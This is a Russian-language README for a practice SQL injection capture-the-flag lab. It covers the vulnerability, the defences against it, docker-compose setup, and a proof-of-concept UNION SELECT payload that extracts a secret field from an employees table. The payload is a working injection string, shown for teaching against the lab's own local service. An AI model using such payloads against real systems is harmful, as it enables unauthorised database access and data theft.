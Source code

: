 # Practice SQLI CTF

## Краткое описание уязвимости
SQL Injection - уязвимость, которая позволяет злоумышленнику создавать запросы к SQL базам данных, не предусмотренные разработчиком.
Возникает она из-за неправильной обработки данных, которые впоследствие присутствуют в запросе к базе данных.
Данный сервис позволяет получить все штрафы пользователя по имени человека.

## Способы защиты от уязвимости
- Корректная обработка и экранирование входных данных.
- Настройка прав доступа к базе данных.
- Использование `prepared statements` и параметризированных запросов.

## Запуск приложения
Для запуска приложения нужно:
1. Склонировать репозиторий:
```bash
git clone https://github.com/MinaevMax/Practice_SQLI.git
cd Practice_SQLI
```
2. Запуск приложения через docker-compose:
```bash
docker-compose up --build
```
3. Приложение будет запущено по адресу: [http://localhost:8080](http://localhost:8080)

## Описание уязвимости конкретно в данном приложении
Сервис позволяет получить флаг, находящийся в поле secret у сотрудника(таблица `employees`), выписавшего наибольшую сумму штрафов.
Есть хэндлер, который возвращает из бд только поля id штрафа и имя на кого он выписан.
Для того, чтобы получить флаг, нужно передать вместо имени запрос, который фильтрует и возвращает поле secret у нужной записи.

Также для улучшения взаимодействия пользователя и базы данных имеются хэндлеры позволяющие добавлять штраф в базу, а также узнавать количество записей в таблицах.

## POC-эксплоит для получения флага
Для получения флага, необходимо получить запись из таблицы, недоступной для получения из хэндлера.
Сделать это можно воспользовавшись SQL командой `UNION`, которую нужно использовать в передаваемом тексте.
Например, подойдет следующий запрос в форму для поиска штрафов по имени:
```
' UNION SELECT 0, secret, 0 FROM billdb.employees WHERE id = (SELECT employee_id FROM billdb.bills GROUP BY employee_id ORDER BY SUM(value) DESC LIMIT 1) AND ''='
```
Для него, запрос к БД будет выглядеть следующим образом: 
```
SELECT id, name, value FROM billdb.bills WHERE name='' UNION SELECT 0, secret, 0 FROM billdb.employees WHERE id = (SELECT employee_id FROM billdb.bills GROUP BY employee_id ORDER BY SUM(value) DESC LIMIT 1) AND ''=''
```
В результате запрос вернет поле secret для сотрудника с наибольшей суммой штрафов, что и есть флаг.
Хэндлер возвращает 3 параметра: id штрафа, name человека, value штрафа, обернутые в текстовую оболочку. 
При получении флага `id` и `value` будут 0, а поле `name` будет отображать флаг(Это следует из запроса в примере).

Выполнение запросов лучше и удобнее всего проводить через любой удобный для Вас браузер.